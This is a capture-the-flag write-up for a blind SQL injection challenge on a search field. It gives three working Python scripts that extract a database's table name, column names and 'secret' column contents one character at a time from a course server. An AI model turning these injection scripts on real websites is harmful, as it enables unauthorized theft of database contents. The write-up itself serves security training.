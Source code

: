 # Challenge: Sometimes_we_are_just_temporarily_blind-v2 Writeup
## It is the same resolution as Sometimes_we_are_just_temporarily_blind Challenge
## I already done it with case sensitive :)
## Step 1: Discovering the Second Table Name

- **Vulnerability**: SQL Injection
  - _Eg, Determining the name of the second table in the database through SQL Injection._
- **Where**: Present in a website's search feature.
  - _Eg, A vulnerable input field in the website's search functionality._
- **Impact**: Discovery of the name of the second table.
  - _Eg, This could potentially expose sensitive information if the table contains confidential data._

- **NOTE**: The script iterates through possible characters to determine the name of the second table in the database.

### Steps to reproduce

1. Use the `get_table_name` function to iterate through characters.
2. Append each discovered character to construct the table name.
3. Repeat until the full name is determined.

```python
import requests
import string

def get_table_name(url, base_payload, table_position):
    char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
    table_name = ''
    position = 1
    while True:
        found_letter = False
        for char in char_set:
            payload = base_payload.format(table_position, position, char)
            response = requests.get(url + payload)
            if response.status_code == 200 and "Found 4 articles with search query" in response.text:
                table_name += char
                found_letter = True
                break
        if not found_letter:
            break
        position += 1
    return table_name

url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search="
base_payload = "' AND SUBSTR((SELECT name FROM sqlite_master WHERE type='table' ORDER BY name LIMIT 1 OFFSET {}), {}, 1) = '{}' -- "
table_position = 1
second_table_name = get_table_name(url, base_payload, table_position)
print(f"The name of the second table is: {second_table_name}")

```
### Step 2: Enumerating Column Names of the Second Table

- **Vulnerability**: SQL Injection
  - _Discovering column names of the identified table._
- **Where**: Same vulnerable search feature.
- **Impact**: Revealing the schema of the table, aiding in further exploitation.

### Steps to reproduce

1. Apply the `get_column_names` function with the identified table name.
2. Iterate over characters to find each column name.
3. Compile a list of column names.

```python
import requests
import string

def get_column_names(url, base_payload, table_name):
    column_names = []
    for column_index in range(10):
        column_name = ''
        position = 1
        while True:
            found_letter = False
            for char in string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation:
                payload = base_payload.format(table_name, column_index, position, char)
                response = requests.get(url + payload)
                if response.status_code == 200 and "Found 4 articles with search query" in response.text:
                    column_name += char
                    found_letter = True
                    break
            if not found_letter:
                break
            position += 1
        if column_name:
            column_names.append(column_name)
        else:
            break
    return column_names

url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search="
base_payload = "' AND SUBSTR((SELECT name FROM pragma_table_info('{}') LIMIT 1 OFFSET {}), {}, 1) = '{}' -- "
table_name = "super_s_sof_secrets"
column_names = get_column_names(url, base_payload, table_name)
print(f"Column names in the table {table_name}: {column_names}")
```

# Step 3: Extracting Contents of the 'Secret' Column

- **Vulnerability**: SQL Injection
  - _Retrieving data from the 'secret' column of the identified table._
- **Where**: Same vulnerable search feature.
- **Impact**: Accessing sensitive data within the table, potentially exposing confidential information.

### Steps to reproduce

1. Use the `get_secret_column_contents` function with the target table and column.
2. Iterate through characters at each position to build the contents of the 'secret' column.
3. Output the extracted data.

```python
import requests
import string

def get_secret_column_contents(url, table_name, column_name, max_rows=10):
    for row_index in range(max_rows):
        secret_data = ''
        position = 1
        while True:
            found_character = False
            for char in string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation:
                payload = f"' AND (SELECT SUBSTR({column_name}, {position}, 1) FROM {table_name} LIMIT 1 OFFSET {row_index}) = '{char}' -- "
                full_url = url + payload
                response = requests.get(full_url)
                if response.status_code == 200 and "Found 0 articles with search query" not in response.text:
                    secret_data += char
                    found_character = True
                    break
            if not found_character:
                break
            position += 1
        if secret_data:
            print(f"Row {row_index + 1}, {column_name}: {secret_data}")
        else:
            break

url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search="
table_name = "super_s_sof_secrets"
column_name = "secret"
get_secret_column_contents(url, table_name, column_name)


